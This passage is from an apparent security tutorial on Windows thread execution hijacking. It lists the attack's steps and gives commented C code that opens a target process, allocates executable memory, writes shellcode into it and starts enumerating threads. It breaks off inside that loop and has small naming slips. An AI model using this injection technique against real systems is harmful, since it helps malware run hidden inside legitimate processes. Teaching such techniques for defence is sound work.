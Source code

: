 ### Abusing Process Components 

At a high-level thread (execution) hijacking can be broken up into eleven steps:

    Locate and open a target process to control.
    Allocate memory region for malicious code.
    Write malicious code to allocated memory.
    Identify the thread ID of the target thread to hijack.
    Open the target thread.
    Suspend the target thread.
    Obtain the thread context.
    Update the instruction pointer to the malicious code.
    Rewrite the target thread context.
    Resume the hijacked thread.

We will break down a basic thread hijacking script to identify each of the steps and explain in more depth below.

The first three steps outlined in this technique following the same common steps as normal process injection. These will not be explained, instead, you can find the documented source code below.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);


```

Once the initial steps are out of the way and our shellcode is written to memory we can move to step four. At step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: CreateToolhelp32Snapshot(), Thread32First(), and Thread32Next(). These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.

```
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```